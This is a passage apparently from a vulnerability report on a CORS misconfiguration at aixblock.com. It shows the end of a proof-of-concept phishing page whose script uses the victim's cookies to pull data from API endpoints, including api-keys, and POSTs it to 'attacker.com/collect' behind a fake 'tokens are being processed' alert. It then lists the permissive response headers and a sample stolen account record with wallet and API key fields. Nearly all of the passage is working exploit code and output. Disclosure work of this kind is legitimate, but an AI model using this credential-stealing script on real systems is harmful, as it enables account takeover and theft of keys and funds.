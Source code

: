 ```html
            '/api/v1/projects',
            '/api/v1/api-keys'
        ];
        
        const stolen = {};
        
        for (const endpoint of endpoints) {
            const response = await fetch(
                `https://aixblock.com${endpoint}`,
                { credentials: 'include' }
            );
            stolen[endpoint] = await response.json();
        }
        
        // Send to attacker
        await fetch('https://attacker.com/collect', {
            method: 'POST',
            body: JSON.stringify(stolen)
        });
        
        alert('Thank you! Your tokens are being processed...');
    }
    </script>
</body>
</html>
```

#### Step 2: Actual CORS Headers (Compromised)
```http
Request Headers:
---------------
Origin: https://phishing-site.com
Referer: https://phishing-site.com/steal.html
Cookie: session=abc123xyz789

Response Headers:
----------------
Access-Control-Allow-Origin: *  ← VULNERABLE
Access-Control-Allow-Credentials: true
Access-Control-Allow-Methods: *
Access-Control-Allow-Headers: *
Status: 200 OK
```

#### Step 3: Stolen Data Response
```json
{
  "id": "user_12345",
  "email": "victim@example.com",
  "name": "John Doe",
  "role": "user",
  "wallet": {
    "address": "DYw8jCTfwHQ7cKm5xR3nL9pV2sF6tN4aE8bG1hJ7kM3q",
    "balance": 2500.00,
    "token": "USDC"
  },
  "apiKey": "sk_live_abc123xyz789",
  "projects": [
    {
      "id": "proj_789",
      "name": "ML Model Training",
      "budget": 5000
    }
  ]
```